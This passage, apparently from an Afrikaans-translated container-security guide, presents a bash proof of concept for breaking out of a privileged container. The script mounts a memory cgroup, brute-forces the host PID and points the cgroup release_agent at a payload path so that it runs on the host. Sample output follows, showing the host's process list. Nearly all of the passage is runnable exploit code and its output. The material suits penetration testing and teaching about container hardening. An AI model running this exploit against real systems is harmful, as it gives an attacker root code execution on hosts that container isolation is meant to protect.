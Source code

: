 ```bash

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
Die uitvoering van die PoC binne 'n bevoorregte houer behoort uitset te lewer soortgelyk aan:
```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```
#### Bevoorregte Ontsnapping deur Misbruik van Sensitiewe Monterings
